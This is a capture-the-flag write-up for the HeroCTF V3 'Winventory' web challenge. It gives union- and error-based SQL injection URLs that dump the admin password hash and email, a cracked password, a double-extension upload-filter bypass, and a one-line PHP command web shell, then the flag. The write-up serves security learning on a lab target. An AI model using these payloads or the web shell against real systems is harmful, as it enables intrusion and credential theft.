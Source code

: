 # Winventory - 250 pts

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/b7436192dc04b8574cc6c82b4fedd583e0b394cd/2021/HeroCTF%20V3/Web/Winventory/img/challenge.png" />
</p>


## TLDR :
* Find and exploit SQL Injection (Union Based & Error Based)
* Bypass filters on admin pannel in order to upload your PHP reverse shell


## Step 1 : Discover the website

When we arrive on the site we come across this classic login page  

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/b7436192dc04b8574cc6c82b4fedd583e0b394cd/2021/HeroCTF%20V3/Web/Winventory/img/login.png" />
</p>


After a few attempts to search for classic vulnerabilities (ServerSide Template Injection,SQLi,etc...) which did not yield anything, I create an account and log in to discover the rest of the site. Once connected, you come across a book manager in which you can add books and manage them later.

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/b7436192dc04b8574cc6c82b4fedd583e0b394cd/2021/HeroCTF%20V3/Web/Winventory/img/mainpage.gif" />
</p>

As you can see your library is very empty, so let's add a book to it.

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/addBook.png" />
</p>


Now that we have added a book, we can search for it in the "Search" tab and manage it. And that's where the interesting things will start ....

## Step 2 : Finding and exploiting SQLi

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/triggerSQLi.gif" />
</p>


As you can see, the site retrieves the id in the URL in order to find the book that we want to manage, this is very reminiscent of the possibility of an SQL injection, which is confirmed when the addition of the quotation mark causes the error. The first information is the type of database which is MySQL(=MariaDB). As a first approach I tell myself that if the response to the request sent contains more lines (and therefore several books) they will all be displayed on this page: it will therefore be necessary first to determine the exact number of columns in the table which stores the books so that you can do a UNION query with a dummy entry.  

`http://chall2.heroctf.fr:8050/?page=manageBook&id=78456 UNION SELECT NULL,NULL,NULL,NULL,NULL -- -`  

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/step1.png" />
</p>


After some tries by incrementing the number of NULL values ...  

`http://chall2.heroctf.fr:8050/?page=manageBook&id=78456 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL- --`  

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/step2.png" />
</p>

There are therefore 9 columns in the table. The first column should be the id, which is confirmed (and leads to an injection error based) when retrieving the version of MySQL  

`http://chall2.heroctf.fr:8050/?page=manageBook&id=78456 UNION SELECT @@version,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL- --`  

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/step3.png" />
</p>

Everything that will be indicated in the first field of our UNION in the url will display an error because the database expects an integer for the ID column, we will therefore be able to extract information including user logins and passwords. Luckily the tables and the names of the columns where the connection information is stored are predictable:

`http://chall2.heroctf.fr:8050/?page=manageBook&id=78456 UNION SELECT (SELECT password from users LIMIT 1),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -`  

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/step4.png" />
</p>

A hash password is returned to us (pray that it is from the admin), after a quick search it is an MD5 hash which corresponds to : urfaceismassive = MD5(6431468f98f6552c3af0816307f91c06)  
Now we need to find the username :

`http://chall2.heroctf.fr:8050/?page=manageBook&id=78456 UNION SELECT (SELECT username from users LIMIT 1),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -`  

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/step5.png" />
</p>

There is apparently no username column, let's test if there is an email column :  
`http://chall2.heroctf.fr:8050/?page=manageBook&id=78456 UNION SELECT (SELECT email from users LIMIT 1),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -`  
<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/step6.png" />
</p>

An email is returned : admin@adminozor.fr. Let's try to connect with these credentials, and ................... BINGO it works

## Step 3 : Go to admin pannel and bypass filters to upload your own PHP reverse shell.  

So we are logged in as admin a tab attracts our attention: "Administration"

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/admin.gif" />
</p>


Once on this page, we upload an image.jpg for testing, and it works:

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/step7.png" />
</p>


But when we upload an image.php file (our shell) it doesn't work :

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/step8.png" />
</p>


We will therefore have to bypass these filters, there are several ways and the most classic is adding a double extension to our filename, like this: image.jpg.php (Why would that work? Well it could be that the backend code that handle file upload split file name on the "." but only check the second element(the extension of the file) assuming the filenames are only of the form something.extension)

Our image.jpg.php :

```php
<?php
  system($_GET['cmd']);
?>
```

And ................. BINGO it works : 

Now we just have to browse through the server directories and hope to find a dodgy file that might contain the flag, which can be found quickly:

<p align="center">
  <img src="https://github.com/Endeavxor/CTF-Writeups/blob/5fd4cbfeffd605b0e01fc738c34b819a24b94f95/2021/HeroCTF%20V3/Web/Winventory/img/reverseshell.gif" />
</p>

<p align="center">
  <b>FLAG : Hero{sql1_t0_lf1_t0_rc3_b4d_s3cur1ty}</b>
</p>






